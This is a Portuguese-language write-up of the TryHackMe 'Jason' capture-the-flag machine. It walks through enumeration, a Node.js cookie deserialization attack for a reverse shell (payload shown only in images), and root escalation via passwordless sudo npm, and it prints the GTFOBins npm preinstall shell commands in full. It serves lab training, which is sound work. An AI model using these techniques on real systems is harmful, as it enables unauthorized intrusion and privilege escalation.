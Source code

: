 <h1 align="center">  🔪 Jason CTF - Tryhackme 🗼 

  
![Jason](https://darkside.blog.br/wp-content/uploads/2019/02/03_-1200-%C3%97-674-jason-600x337.png)</h1>


# 📙 Começando a enumeração

Bom, começando a fazer a enumeração, passamos um nmap na maquina. 

![nmap](https://miro.medium.com/max/1800/1*bDQSWkpZ6chLwb3txxJNtQ.png)

Aqui podemos ver, porta 22 SSH e porta 80 HTTP abertas!

Na descrição da sala temos a seguinte descrição: 
Somos a Horror LLC, nos especializamos em terror, mas um dos aspectos mais assustadores de nossa empresa é nosso servidor web front-end. Não podemos lançar nosso site em seu estado atual e nosso nível de preocupação com nossa segurança cibernética está crescendo exponencialmente. Pedimos que você execute um teste de penetração completo e tente comprometer a conta root. Não existem regras para este compromisso. Boa sorte!

É melhor ficar de olho no front-end daqui para a frente. 

Olhando a aplicação web, nos deparamos com a seguinte index:

![index](https://miro.medium.com/max/1800/1*AZ3y980R1brtsld-_jnHBw.png)

Bom, aqui temos uma aba de envio de email e agora temos a informação que foi construido em NodeJS, isso vai ser útil.
Então passando um tempo explorando pela aplicação web, não achamos nenhum outro diretorio e muito menos algum subdominio, vamos ver como ela se comporta quando nós enviamos o vosso e-mail, interceptando com o BurpSuite. 

![email](https://miro.medium.com/max/1800/1*n5n22NyMBbwjA57ru7GlPg.png)

OW! Aqui vemos que toda vez que nós mandamos o e-mail para a aplicação web, ela responde com um Set-cookie! 
Mas como a aplicação determina esses cookies?
Vamos dar uma olhada em parte do código-fonte da página!

![script](https://cdn.discordapp.com/attachments/832336647164526643/897597594010804234/unknown.png)


Olhando o código-fonte, vemos que o cookie é setado como: sessão=foobar+expira+path. 
Vamos descriptografar o cookie que recebemos na requisição anterior. 

![cookie](https://miro.medium.com/max/1800/1*knAbux7d1JuK9Eit9bF3lA.png)

E aqui vemos que o nosso cookie setado é um JSON com email que mandamos!! Aeeeeeeeeeeeee!!!

# 📙 Explorando o NodeJS

Bom, aqui fica claro o que devemos explorar. Podemos fazer um ataque de NodeJS deserialization, você pode aprender mais sobre essa vulnerabilidade aqui: https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/

Então, vamos testar!

O payload usado foi esse:
![payload](https://miro.medium.com/max/1800/1*QSNSAfbQL8JwUZ_nByOeUQ.png)
![shell](https://miro.medium.com/max/1800/1*_DPIuyr5sK-Fy8n98Kc3vw.png)

Nos preparamos usando o modulo http.server do python e deixamos o netcat escutando. 

![preparacao](https://miro.medium.com/max/1800/1*z0USzJke2awbInYi9cVp_Q.png)

Para enviar a requisição, eu usei a lib requests do python, pois estava sem o BurpSuite, e basicamente o script fica assim: 

headers = {       

"Host":"10.10.229.206",

"User-Agent":"Mozzila/5.0",

"Accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/webp.*/*;q=0.8",

"Accept-Language":"en-US,en;q=0.5",

"Accept-Encoding":"gzip, deflate", 
"DNT":"1",

"Cookie":"session=seucookie",

"Connection":"close",

"Upgrade-Insceuro-Requests":"1",

"Cache-Control":"max-age=0"

} 

a = requests.get("http://10.10.251.109", headers=headers)




Depois de tudo preparardo, criptografamos em base64 e enviamos uma requisição para o servidor junto ao cookie com payload criptografado em base64, e pronto!

![revshell](https://miro.medium.com/max/1800/1*xqJowMnVQHaghg9ZkPVRhA.png)

# 📙 O privesc

Agora que temos a reverse shell, e caimos como o usuario dylan, vamos listar algumas de nossas permissões.

![sudolist](https://miro.medium.com/max/1800/1*u-05BtbpNaQcLiNNZlHU_w.png)

Observando o retorno, podemos ver a execução sem senha do npm (módulo instalador de pacotes do NodeJS), então vamos ao gtfobis!

Sudo
If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.
Additionally, arbitrary script names can be used in place of preinstall and triggered by name with, e.g., npm -C $TF run preinstall.

TF=$(mktemp -d)

echo '{"scripts": {"preinstall": "/bin/sh"}}' > $TF/package.json

sudo npm -C $TF --unsafe-perm i



Rodando esses comandos conseguimos rootar a maquina e concluir o CTF!

![root](https://miro.medium.com/max/525/1*9qfbxln1Cy0I_sAkNyCSzA.png)

Essa maquina é basicamente isso, tentei passar toda a writeup com a minha visão de como foi jogar essa maquina e meus pensamentos durante o jogo! Boa play, e keep focus, keep hacking! 


(Imagens maramente ilustrativas, pegas do site https://musyokaian.medium.com/jason-tryhackme-walkthrough-e37371eae6e0 pois não printei quando joguei)
